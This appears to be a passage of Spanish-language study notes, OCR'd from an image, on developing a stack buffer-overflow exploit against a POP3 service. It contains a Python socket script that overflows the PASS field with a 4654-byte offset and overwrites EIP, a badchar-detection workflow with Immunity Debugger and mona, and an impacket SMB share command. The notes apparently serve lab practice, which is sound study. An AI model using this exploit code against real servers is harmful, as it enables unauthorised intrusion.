 ```python

def exploit():
    # Crear un socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # Conectar al servidor
    s.connect((ip_address, port))

    # Recibir el banner
    banner = s.recv(1024)

    # Enviar comandos
    s.send(b"USER jquerito" + b'\r\n')
    response = s.recv(1024)
    s.send(b"PASS " + payload  + b'\r\n')
    s.close()

# Función principal
if __name__ == '__main__':
    exploit()
```

## Generación de Bytearrays y detección de Badchars

>El programa puede que no interprete algunos cracteres que se les considerará badchars maliciosos, debemos jugar con ello con bytearrays que son **shellcodes en orden para saber a simplevista si el programa se saltan alguno**

>Esto lo vemos con IDebugger , **click derecho en los bytes de memoria en ESP , Follow in dump**

#Importante

>El que carácter que no aparezca es que es un badchar

```IMGdebugger
!mona config -set workingfolder C:\dondesees
#Nos da todas las combinaciones posibles
!mona bytearray
#Quitar caracter que el debugger no representa
#Porque el programa no lo interpreta
#También podemos quitárselo desde msfvenom
!mona bytearray -cpb 'x00' 
```

- Creo un samba compartido para pasar los files del win al lin
```bash
impacket-smbserver smbfolder $(pwd) -smb2support
```

```python
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_address = "192.168.1.145"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = b"B"*4
after_eip = (b"salida de los bytearray.txt con b en cada uno"
b"0x54"
b"0x49")

```